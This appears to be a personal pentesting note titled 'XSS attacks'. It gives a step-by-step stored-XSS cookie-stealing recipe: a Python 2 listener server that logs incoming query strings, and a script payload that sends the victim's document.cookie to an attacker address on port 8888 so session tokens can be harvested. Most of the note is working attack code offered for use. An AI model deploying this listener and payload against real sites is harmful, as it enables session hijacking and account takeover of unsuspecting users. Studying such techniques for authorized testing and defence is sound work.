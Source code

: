 ```yaml
---
title: XSS attacks 💀
---
```


- When performing an stored XSS, we have the following useful script (python2):

```python
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)

        return

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    try:
        server = HTTPServer(('0.0.0.0', 8888), MyHandler)
        print('Started http server')
        server.serve_forever()
    except KeyboardInterrupt:
        print('^C received, shutting down server')
        server.socket.close()
```

- Execute it
- Then we insert on the webpage the following XSS:

```shell
<script>
   image = new Image();
   image.src='http://IP_ATTCK:8888/?'+document.cookie;
</script>
```

- Then we should get some session tokens like this (when someone clicks on it):

![](./img/Pasted%20image%2020240210145953.png)

